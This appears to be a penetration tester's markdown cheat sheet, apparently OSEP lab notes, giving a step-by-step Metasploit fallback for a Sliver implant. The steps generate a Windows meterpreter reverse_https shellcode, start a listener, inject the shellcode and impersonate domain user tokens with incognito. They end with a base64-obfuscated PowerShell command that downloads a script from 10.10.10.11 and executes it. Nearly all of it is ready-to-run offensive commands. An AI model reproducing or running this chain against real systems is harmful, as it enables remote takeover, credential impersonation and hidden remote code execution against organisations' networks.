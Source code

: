 # Metasploit

Just in case Sliver fails

### 1) Metasploit - x64 shellcode

    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f raw -o /home/kali/OSEP/hav0c/metasploit.x64.bin


### 2) Listener - msfconsole

    sudo msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set lhost tun0;set lport 443; set exitfunc thread; set EnableStageEncoding true; set exitonsession false; run -j'


### 3) Execute metasploit.x64.bin to get within msf

    execute-shellcode -S -r -I 30 /home/kali/OSEP/hav0c/metasploit.x64.bin


### 4) Within msf

    load incognito


### 5) List users

    list_tokens -u

### 6) Impersonate

    impersonate_token domain\\user

### 7) Get shell as the impersonated user

    shell
    powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA==


    # Sliver
    # We get the shell back as domain\user and can continue to enumerate
